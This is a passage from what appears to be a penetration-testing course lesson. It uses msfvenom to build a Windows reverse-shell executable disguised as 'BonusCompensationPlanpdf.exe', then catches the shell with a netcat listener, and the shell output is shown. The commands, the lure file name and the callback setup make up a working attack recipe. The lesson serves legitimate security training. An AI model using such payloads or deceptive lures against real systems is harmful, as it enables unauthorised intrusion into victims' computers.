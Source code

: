 <p>This same concept can be used to create payloads for various platforms, including Windows.</p>
<hr/>
<h2>Building a simple Stageless Payload for a Windows system</h2>
<p>We can also use msfvenom to craft an executable (<code>.exe</code>) file that can be run on a Windows system to provide a shell.</p>
<h4>Windows Payload</h4>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe &gt; BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
</code></pre>
<p>The command syntax can be broken down in the same way we did above. The only differences, of course, are the <code>platform</code> (<code>Windows</code>) and format (<code>.exe</code>) of the payload.</p>
<hr/>
<h2>Executing a Simple Stageless Payload On a Windows System</h2>
<p>This is another situation where we need to be creative in getting this payload delivered to a target system. Without any <code>encoding</code> or <code>encryption</code>, the payload in this form would almost certainly be detected by Windows Defender AV.</p>
<p><img alt="File explorer showing 'BonusCompensationPlan.pdf' in the Downloads folder on a Windows system." src="https://academy.hackthebox.com/storage/modules/115/winpayload.png"/></p>
<p>If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads&gt;dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    &lt;DIR&gt;          .
09/23/2021  10:26 AM    &lt;DIR&gt;          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
</code></pre>
